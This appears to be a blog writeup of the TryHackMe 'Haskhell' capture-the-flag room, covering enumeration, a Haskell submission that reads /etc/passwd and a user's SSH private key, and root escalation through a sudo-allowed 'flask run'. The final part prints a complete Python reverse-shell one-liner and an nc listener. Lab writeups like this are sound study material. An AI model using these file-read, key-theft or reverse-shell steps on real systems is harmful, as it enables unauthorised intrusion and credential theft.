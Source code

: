 ```yaml
---
layout: post
title: Haskhell writeup
date: 2020-08-04 04:00:00 +5:30
description: The Following Post is writeup of Haskell of tryhackme # Add post description (optional)
categories: [TryHackMe, Medium]
tags: [tryhackme, ctf, flask, haskell] # add tag
---
```


## Description:

The Following Post is writeup of Haskhell room of tryhackme <https://tryhackme.com/room/haskhell>

|Machine|Details
|:---|:--
|OS | linux
|Rating | Medium
|Creator | sgtscout

## Summary:

  The machine have a webpage at port 5001 you will see a message from your prof about uploading assignment
  We made a Simple Haskell script for reading file(I am not good in Haskell). We got lucky about the permissions
  and get id_rsa printed. Login as user then for privesc we have sudo permissions to run flask app and we run python
  reverse shell as flask app.


## Walkthrough:

### Enumeration

Lets start with nmap scan
```terminal
nmap -sC -sV <ip>
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.91 seconds
```
We can see server at port 5001

let's dirbust it
```terminal
┌─[✗]─[silver@parrot]─[~]
└──╼ $gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.30.179:5001
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.30.179:5001
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/04 00:56:40 Starting gobuster
===============================================================
/submit (Status: 200)
===============================================================
2020/08/04 01:01:57 Finished
===============================================================
```

we got a submit dir let's see what we can submit
We need to make a haskell script to see if we can get any output or not

```terminal
└──╼ $cat try.hs
main = do
 x <- readFile "/etc/passwd"
 putStr x
```

Now we know prof lets check out .ssh key
So we changed the readfile to /home/prof/.ssh/id_rsa

we got key hurray crack using john
```terminal
└──╼ $/usr/share/john/ssh2john.py id_rsa > crack.hash
id_rsa has no password!


prof@haskhell:~$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run

Now we know flask run python let's try with python rev shell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    $ export FLASK_APP=hello.py
    $ export FLASK_DEBUG=1
    $ flask run

nc -lvnp 1234
```

Rooted
